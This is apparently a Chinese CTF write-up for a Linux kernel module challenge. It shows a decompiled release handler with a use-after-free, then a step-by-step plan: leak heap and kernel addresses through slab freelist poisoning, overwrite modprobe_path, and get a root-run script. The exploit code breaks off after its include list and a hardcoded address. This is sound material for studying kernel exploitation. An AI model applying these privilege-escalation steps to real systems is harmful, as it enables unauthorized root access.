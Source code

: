 ```c
  }
}

int __fastcall xkmod_release(inode *inode, file *file)
{
  return kmem_cache_free(s, buf);
}
```

close后buf没有清空，依然可以修改buf或者泄露buf的内容

- 打开多个`/dev/xkmod`
- 第一个描述符add，然后关闭掉
- 第二个描述符read，泄露object地址，然后通过异或来得到堆基地址
- 第二个描述符write，写freelist为（page\_offset\_base） + 0x9d00-0x10(此时对应的freelist为null，这样系统会向buddysystem请求新slab，否则如果freelist不是有效的，kernel会panic)
- 第二个描述符add 两次，此时buf为（page\_offset\_base） + 0x9d00-0x10，read可泄露内核基地址
- 第二个描述add，然后关闭
- 第三个描述write，写freelist为modprobe\_path -0x10(也是保证freelist为NULL)
- 第三个描述add两次，此时buf为modprobe\_path-0x10，然后write写为恶意脚本路径
- 然后创建格式错误文件，执行错误文件将会跳转到恶意脚本执行，里面改flag权限为777（执行恶意脚本为root权限）
- 然后起个shell就可以读flag

### exp

```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <asm/ldt.h>
#include <assert.h>
#include <ctype.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/keyctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <semaphore.h>
#include <signal.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/sem.h>
#include <sys/shm.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/xattr.h>
#include <unistd.h>
#include <sys/io.h>

size_t modprobe_path = 0xFFFFFFFF82444700;

```